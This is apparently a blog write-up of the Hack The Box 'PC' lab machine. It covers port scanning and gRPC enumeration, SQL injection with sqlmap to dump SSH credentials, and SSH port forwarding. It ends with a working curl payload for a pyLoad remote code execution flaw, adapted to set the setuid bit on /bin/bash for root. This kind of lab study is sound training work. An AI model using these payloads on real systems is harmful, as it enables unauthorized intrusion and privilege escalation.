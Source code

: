 ```yaml
---
title: "Hack The Box - PC [Easy]"
date: 2023-05-26T02:01:27+03:00
draft: false
tags: ["hackthebox"]
---
```


This machine has only 2 ports open:

```
$ nmap 10.10.11.214 -Pn -p-
22/tcp    open  ssh
50051/tcp open  unknown
```

Using telnet to see what is `50051`, we get:

```
telnet 10.10.11.214 50051
Trying 10.10.11.214...
Connected to 10.10.11.214.
Escape character is '^]'.
?�?� �?^CConnection closed by foreign host.
```
 
Which is some random binary data. I've explored it with `hexdump`.

```
0000000 0000 0418 0000 0000 0000 0004 ff3f 00ff
0000010 0005 ff3f 00ff 0006 2000 fe00 0003 0000
0000020 0001 0400 0008 0000 0000 3f00 0000
000002e
```

I didn't figure out what it was, so I googled the port which led me to this question: https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p 

I've figured out that this is some `rpc` server. Using `grpcui` we can see the following app structure.

```
$ grpcui -plaintext 10.10.11.214:50051
--- 

SimpleApp.LoginUser {
    username string
    password string
}
SimpleApp.RegisterUser {
    username string
    password string
}
SimpleApp.getInfo {
    id string
}

```

I've used `admin:admin` to login, and I got a token and a data:

```json
{
  "message": "Your id is 80."
}

// token	b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk'
```

I've used the `Request Metadata` to send the token when calling the getInfo procedure. 

```
Meta:
token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk

Data:
id: 80
```

This got me:

```
{
  "message": "Will update soon."
}
```

I have no idea what is happening at this point, and I decided to run `sqlmap` on those requests.

To do that I had to capture the request that is going to the server, I can proxy the UI's requests towards the RPC with `burp`. Start `burp` and intercept the gRPC Web UI and capture the request towards the server. Then save the request to `getInfo` into a file.

Using `sqlmap -r request_file --batch` we can dump the credentials for the user and login with the `ssh`.

Now the root is a bit tricky, I've noticed some processes that are running on port 8000 using `linpeas`. This port is inaccessible, so I had to forward the port to my host using ssh.

```
$ ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Now I can access it, and it turns out to be pyLoad, searching around I saw this:

https://github.com/advisories/GHSA-pf38-5p22-x6h6
https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d
https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

Where I can see the following payload

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Decoding the payload on the `jk` param: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`

Now we just have to encode `chmod +s /bin/bash` into `os.system()`. After executing that payload, we can launch bash in privilege mode `bash -p` and I got root.
